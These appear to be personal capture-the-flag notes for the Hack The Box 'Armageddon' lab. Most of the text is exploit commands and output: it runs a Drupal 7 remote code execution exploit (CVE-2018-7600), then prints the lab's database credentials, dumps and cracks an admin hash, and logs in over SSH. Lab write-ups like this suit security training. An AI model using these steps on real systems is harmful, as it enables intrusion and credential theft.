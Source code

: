 * Know the specific version of drupal (7.56), try looking for an exploit
* After one google, find this github repo
![[Pasted image 20210607155939.png]]
* Try running this exploit to see we have code execution
```bash
┌──(hunter㉿kali)-[~/htb/armageddon]
└─$ ./exploit.py -c ls http://10.10.10.233

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-tzFIg-hV6el0hgOAjIXth4RoH7y5p-L-VvgYzJVIahk
[*] Triggering exploit to execute: ls
CHANGELOG.txt
COPYRIGHT.txt
INSTALL.mysql.txt
INSTALL.pgsql.txt
INSTALL.sqlite.txt
INSTALL.txt
LICENSE.txt
MAINTAINERS.txt
README.txt
UPGRADE.txt
authorize.php
cron.php
includes
index.php
install.php
misc
modules
nc
php-reverse-shell.php
profiles
robots.txt
scripts
sites
test
test.php
themes
update.php
web.config
xmlrpc.php 
```
* Found in drupal settings file
```sql
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
* Using this webshell is aids so try and get a better one
![[Pasted image 20210607171006.png]]
* Note that this box doesn't allow connections on higher/less-used ports like 9001
	* Port 80 is the first one I could get a callback on

* Nothing super obvious from running sudo -l or groups, so look for recently edited files
* Don't find anything outside of web directory that we can use

## MySQL
```sql
sh-4.2$ mysql -u drupaluser -p -e 'use drupal; select * from users'
mysql -u drupaluser -p -e 'use drupal; select * from users'
Enter password: CQHEy@9M*m23gBVj
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu     a:1:{s:7:"overlay";i:1;}
3       pwn     $S$DCkpLfGXgWjxMLQ7RJAhVpK2tzngNNfASKtZ4VPrtm/ifLsKIE2u pwn@localhost.localdomain                       filtered_html   1624379697      0       0       0       Europe/London           0       pwn@localhost.localdomain       NULL
```
* Using the creds that we found in the drupal config file, dump a hash for brucetherealadmin
	* This is also a user on the box, so assuming password reuse?
	* Note pwn is a user I created earlier on as a way of testing vulnerabilities on the box
* Using hashcat, easily crack the hash and get password 
```bash
hunter@kali ~/htb/armageddon$ hashcat -m 7900 hash /usr/share/wordlists/rockyou.txt --show
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
```
* Try logging into the box through ssh with this password for brucetherealadmin
```bash
hunter@kali ~/htb/armageddon$ ssh brucetherealadmin@10.10.10.233
brucetherealadmin@10.10.10.233's password:
Last failed login: Tue Jun 22 17:05:04 BST 2021 from 10.10.14.8 on ssh:notty
There were 3 failed login attempts since the last successful login.
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[brucetherealadmin@armageddon ~]$
```
* Check ~ and get the user.txt flag